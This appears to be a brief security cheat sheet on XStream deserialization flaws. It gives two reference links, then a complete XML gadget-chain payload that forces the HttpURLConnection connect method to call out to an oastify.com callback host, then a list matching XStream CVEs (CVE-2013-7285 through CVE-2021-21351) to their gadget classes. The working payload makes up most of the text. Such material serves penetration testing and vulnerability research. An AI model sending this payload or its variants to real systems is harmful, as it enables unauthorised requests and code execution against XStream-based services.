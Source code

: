 https://fynch3r.github.io/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E6%A2%B3%E7%90%86/

https://x-stream.github.io/security.html

```xml
<map><entry><jdk.nashorn.internal.objects.NativeString><flags>0</flags><value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"><dataHandler><dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"><is class="javax.crypto.CipherInputStream"><cipher class="javax.crypto.NullCipher"><initialized>false</initialized><opmode>0</opmode><serviceIterator class="javax.imageio.spi.FilterIterator"><iter class="javax.imageio.spi.FilterIterator"><iter class="java.util.Collections$EmptyIterator" /><next class="sun.net.www.protocol.http.HttpURLConnection"><url>http://y76img5zt2wzvdfqvqbjumvs5jbagy5.oastify.com</url></next></iter><filter class="javax.imageio.ImageIO$ContainsFilter"><method><class>sun.net.www.protocol.http.HttpURLConnection</class><name>connect</name><parameter-types /></method><name>asdasd</name></filter><next class="string">asdasd</next></serviceIterator><lock /></cipher><input class="java.lang.ProcessBuilder$NullInputStream" /><ibuffer></ibuffer><done>false</done><ostart>0</ostart><ofinish>0</ofinish><closed>false</closed></is><consumed>false</consumed></dataSource><transferFlavors /></dataHandler><dataLen>0</dataLen></value></jdk.nashorn.internal.objects.NativeString><jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString" /></entry><entry><jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString" /><jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString" /></entry></map>
```
CVE-2013-7285  java.beans.EventHandler

CVE-2020-26217/CVE_2020_26259 jdk.nashorn.internal.objects.NativeString

CVE_2021_21344/CVE_2021_21345 sun.awt.datatransfer.DataTransferer$IndexOrderComparator

CVE_2021_21346 sun.swing.SwingLazyValue

CVE_2021_21347/CVE_2021_21350 javafx.collections.ObservableList$1

CVE_2021_21351 javax.naming.ldap.Rdn$RdnEntry

